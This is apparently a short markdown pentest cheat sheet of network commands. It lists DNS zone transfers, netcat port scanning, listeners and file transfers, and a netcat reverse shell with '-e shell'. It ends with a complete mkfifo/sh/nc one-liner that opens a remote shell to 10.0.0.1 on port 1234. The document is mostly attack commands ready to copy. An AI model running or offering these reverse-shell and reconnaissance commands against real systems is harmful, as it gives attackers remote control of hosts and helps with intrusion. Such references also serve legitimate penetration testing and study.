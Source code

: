 # rtfm

## network

<table>
  <tr>
    <th>command</th>
	<th>description</th>
  </tr>
  <tr>
    <td>host -t ns <i>domain</i></td>
    <td>ask the name servers for a domain</td>
  </tr>
  <tr>
    <td>host -l <i>domain nameServer</i></td>
    <td>dns zone transfer</td>
  </tr>
  <tr>
    <td>nc <i>ip port</i> -e <i>shell</i></td>
    <td>start reverse shell: cmd.exe, /bin/sh</td>
  </tr>
  <tr>
    <td>nc -l -p <i>port</i></td>
    <td>start listener</td>
  </tr>
  <tr>
    <td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</i></td>
    <td>tcp port scanner</td> 
  </tr>
  <tr>
    <td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</i></td>
    <td>file transfers</td>
  </tr>
</table>

if you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEyMjgxODc3NjUsMjE4OTAxNjg0LC0xNz
IyNDUwNDAzLC0xOTY2NTg4NTE1XX0=
-->
